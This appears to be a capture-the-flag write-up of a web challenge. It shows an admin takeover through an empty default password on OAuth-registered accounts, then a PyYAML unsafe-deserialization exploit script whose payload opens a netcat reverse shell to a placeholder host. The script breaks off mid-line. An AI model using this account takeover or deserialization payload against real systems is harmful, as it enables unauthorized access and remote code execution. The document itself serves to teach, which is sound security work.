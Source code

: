 The meaning of this code (for lazy people :p ) when a user completes the Oauth dance successfully for the first time he will be registered in the database in the User table and we can also notice that **fwordadmin** is the github account of the admin (this information will help us next).

Now our goal is to login using fwordadmin account, there's something suspicious in the previous code, when you connect via github you don't need any password but indeed the user is still
saved in the same table where regular registrations are stored so we have to wonder what password is set by default or is there some column to verify the login method (which is not the case).

The User class confirms our statement, the default password is set to ""

```python
class User(UserMixin,Base):
    __tablename__ = 'users'
    id = Column(Integer, primary_key=True)
    username = Column(String(50), unique=True)
    email = Column(String(120), unique=True)
    password_hash=Column(String(200))
    is_admin=Column(Boolean)
    def __init__(self, username=None, email=None,password="",is_admin=False):
        self.username = username
        self.email = email
        print("pass :"+password)
        self.set_password(password)
        self.is_admin=is_admin

```

So if we connect with the following credentials we will takeover the admin account:

```
login: fwordadmin
password: //
```
There is a check that removes special characters so the password will be interpreted as "" at the end.

Now we have access to the admin panel that has a feature that parses docker-compose files (yaml file) so even without reading the source code we can know that is a yaml unsafe deserialization exploit.

The vulnerable code:

```python
def parse(text):
    try:
        res = yaml.load(text, Loader=Loader)
        return res
    except Exception:
        return "An Error has occured"

```

This is my final exploit that spawns a reverse shell:

```python
import yaml,subprocess,requests

class Payload(object):
        def __reduce__(self):
                return (subprocess.Popen,(tuple('nc IP PORT -e /bin/bash'.split(" ")),))
deserialized_data = yaml.dump(Payload())  
data1={"username":"fwordadmin","password":"////"}
print("[+] Payload is: "+deserialized_data)
#yaml.load(deserialized_data,Loader=yaml.Loader)
data2={"service":deserialized_data}
s=requests.Session()
r=s.post("https://useless.fword.wtf/login",data=data1)
if r.status_code==200:
```
